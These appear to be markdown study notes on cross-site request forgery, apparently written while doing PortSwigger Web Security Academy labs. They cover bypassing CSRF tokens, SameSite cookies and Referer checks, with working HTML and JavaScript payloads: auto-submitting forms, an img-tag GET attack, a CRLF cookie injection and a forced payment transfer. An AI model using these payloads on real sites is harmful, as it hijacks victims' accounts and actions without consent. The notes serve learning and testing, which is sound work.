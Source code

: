 # CSRF
CSRF is an attack when attacker induces user to perform some actions on site that they didn't want to do.  
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
This html page will force user to change email  
Easiest way to construct CSRF page is to use CSRF PoC from engagement tools  
If it's possible to perform CSRF via GET request, we can use smth like this:
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
## Bypassing CSRF token validation  
Switch POST to GET  
Some applications  correctly validate the token when it is present but skip the validation if the token is omitted.  
In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a globalpool of tokens that it has issued and accepts any token that appears in this pool.  
In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.   
Remember that tokens could be single-use  

CSRF token could be duplicated in Cookie. In such case, we need to exploit cookie-setting mechanism and force user to use our own generated CSRF token which must be same with token in cookie.  
For example, if server duplicates our search requests in cookie like `lastSearch: test`, we can create search request which will set our own cookie and csrf token and send such request to user and then exploit CSRF  
Example:
```
/search?q=test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None
```
%0d%0a - new line  
%3b - ;  
Then we create CSRF PoC and add 
```
<img src="https://0a4a000404f41823808649ee00a4001f.web-security-academy.net/search?test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
## Bypassing SameSite cookie restrictions
SameSite checks URL scheme and TLD+1. That means, that it checks http/https and `.com` and one level behind that.  
Same-Origin checks the whole origin including port and all subdomain names.  
So same-site allows requests from `https://app.example.com` to `https://intranet.example.com` and from `https://example.com` to `https://example.com:8080`, while same-origin will strictly check all the things  
If site don't issue SameSite, Chrome will always set ot to `Lax` value  
### Strict
If a cookie is set with the SameSite=Strict attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie.  
### Lax
Lax will send cookies in cross-site requests, but only if it `GET` requests and request was resulted from top-level navigation by user (clicking a link)  
### None
SameSite is disabled  
This behaviour is acceptable only if cookie is third-party and not used to manipulate any sensitive data.  
## Bypassing Lax restrictions with GET requests
We can simply change POST to GET and create XSS vector with top-level navigation (link):
```
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
If we can't use simple GET requests, we can try to epxloit some framework features. In case of `Symphony`, we can use `_method` parameters in form to override request method:
```
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
## Bypassing using on-site gadgets
If cookies are using `SameSite=Strict`, we can't use them in any cross-site requests. But we can try to bypass it using site gadgets with secondary requests.  
One possible gadget is client-side redirect which uses attacker-controllable input such as URL to construct redirection target.  
Note that the equivalent attack is not possible with server-side redirects  

SameSite cookie restrictions are omitted for 120 seconds during OAuth login, so we can exploit this:
```
<form method="POST" action="https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
## Bypassing Referer-based CSRF defenses
Referer header is set by servers to identify page from which request is created  
First way is just simply omit Referer header.  
In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:  
```
<meta name="referrer" content="never">
or
<meta name="referrer" content="no-referrer">
```
Another way is bypassing inadequate validating of Referer header. We can set vulnerable website as subdomain of our exploit server or as parameter in URL:
```
http://vulnerable-website.com.attacker-website.com/csrf-attack
http://attacker-website.com/csrf-attack?vulnerable-website.com
```
It's important to detect `Referrer-Policy: unsafe-url` header in response. This ensures that the full URL will be sent, including the query string.  

